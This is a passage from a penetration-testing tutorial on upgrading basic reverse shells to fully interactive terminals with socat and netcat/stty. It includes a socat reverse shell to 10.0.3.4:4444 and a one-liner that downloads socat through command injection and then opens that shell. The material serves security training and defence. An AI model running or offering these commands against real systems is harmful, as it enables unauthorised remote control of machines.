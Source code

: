 **On Victim (launch)**:

|                 |                                                                                         |
| --------------- | --------------------------------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444<br>``` |

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

[https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

|                 |                                                                                                                                                                                                                             |
| --------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444<br>``` |

On Kali, you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. Pretty sweet.

[![Socat tty](https://blog.ropnop.com/images/2017/07/socat_tty.png)](https://blog.ropnop.com/images/2017/07/socat_tty.png)

# Method 3: Upgrading from netcat with magic

I watched Phineas Fisher use this technique in his hacking video, and it feels like magic. Basically it is possible to use a dumb netcat shell to upgrade to a full TTY by setting some `stty` options within your Kali terminal.

First, follow the same technique as in Method 1 and use Python to spawn a PTY. Once bash is running in the PTY, background the shell with `Ctrl-Z`

[![Background shell](https://blog.ropnop.com/images/2017/07/background_netcat.png)](https://blog.ropnop.com/images/2017/07/background_netcat.png)

While the shell is in the background, now examine the current terminal and STTY info so we can force the connected shell to match it:

[![Term and STTY info](https://blog.ropnop.com/images/2017/07/term_stty_info.png)](https://blog.ropnop.com/images/2017/07/term_stty_info.png)

The information needed is the TERM type (_“xterm-256color”_) and the size of the current TTY (_“rows 38; columns 116”_)

With the shell still backgrounded, now set the current STTY to type raw and tell it to echo the input characters with the following command:

|                 |                                  |
| --------------- | -------------------------------- |
| ```<br>1<br>``` | ```bash<br>stty raw -echo<br>``` |

With a raw stty, input/output will look weird and you won’t see the next commands, but as you type they are being processed.

Next foreground the shell with `fg`. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with `reset`.
